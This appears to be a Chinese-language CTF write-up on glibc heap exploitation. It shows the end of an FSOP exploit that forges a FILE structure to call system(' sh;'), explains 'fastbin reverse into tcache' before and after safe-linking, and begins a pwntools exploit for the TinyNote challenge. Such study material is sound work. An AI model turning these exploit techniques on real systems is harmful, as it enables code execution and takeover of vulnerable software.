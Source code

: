 ```python

add(11,0xc0,payload)
add(0,0x80,b'a')
add(1,0x80,p64(heapbase+0x12b0)) #mem

system_addr=libcbase+libc.sym['system']
ioaddr=heapbase+0x12b0
payload = b'  sh;\x00\x00\x00'+p64(0)+p64(0)*2 + p64(1) + p64(2) #这样设置同时满足fsop
payload = payload.ljust(0xa0, b'\x00') + p64(ioaddr + 0xe0) #_wide_data=fake_IO_addr + 0xe0
payload = payload.ljust(0xd8, b'\x00') + p64(libcbase + libc.sym['_IO_wfile_jumps']) #vtable=_IO_wfile_jumps
payload = payload.ljust(0xe0 + 0xe0, b'\x00')+p64(ioaddr+0xe0+0xe8)
payload = payload.ljust(0xe0 + 0xe8 + 0x68, b'\x00') + p64(system_addr)
add(2,0x410,payload)

p.sendlineafter("&gt;&gt;&gt; ",str(4))

p.interactive()
```

fastbin reverse into tcache
===========================

[参考博客1](https://blog.csdn.net/weixin_46483787/article/details/122859709)  
[参考博客2](https://bbs.kanxue.com/thread-272884.htm)

低版本
---

- 在2.27-2.31版本中，没有对fd指针加密，所以在利用的时候非常简单，只需要将tcache填满，然后放7个chunk进fastbin，并将第一个放进fastbin的chunk的fd改成目标地址，然后清空tcache，申请一个fastbin出来，就可以将target链入tcache并且是在头部，这样即可实现任意地址写一个堆地址的目的，还能将链入tcache的地址申请出来，达到任意地址写任意值。 高版本
    ---
- 从libc2.32开始，针对tcache和fastbin的fd指针都进行了一个加密，加密过程是用当前chunk的地址&gt;&gt;12去和fd值异或，并将结果作为新的fd值，所以在进行fastbin reverse into tcache的时候，就不能单纯的将fastbin的fd该成目标地址了，需要先和其地址&gt;&gt;12去异或

例题 TinyNote
-----------

- 这个题最多申请3个chunk，有uaf，也有show，但是只能malloc(0x10)，想要泄露libcbase肯定要搞出一个大于0x410的chunk才能泄露libcbase，这里是利用tcache poison伪造了一个fake chunk，绕过free的一些检查，即可泄露libcbase
- 这个题因为tcache poison很容易，也没有什么操作次数限制，因此可以很轻松地控制tcache perthread struct结构，那么就可以进行任意地址的获取与写入
- 这个exp只是为了学习fastbin reverse into tcache，实际上还可以优化，因为可以任意地址获取和任意地址写，因此很多高版本的io链都可以打，同时也可以打malloc\_assert，这里就不再实现了

exp

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import p64
context(os='linux', arch='amd64', log_level='debug')
# p=gdb.debug("/home/zp9080/PWN/viphouse",'b *0x401AC3')
elf=ELF("/home/zp9080/PWN/TinyNote")
libc=elf.libc
io=process("/home/zp9080/PWN/TinyNote")
rl = lambda    a=False        : io.recvline(a)
ru = lambda a,b=True    : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sn = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b            : io.sendafter(a,b)
sla = lambda a,b        : io.sendlineafter(a,b)
irt = lambda            : io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
# lg = lambda s,addr        : log.info('\033[1;31;40m %s --&gt; 0x%x \033[0m' % (s,addr))
```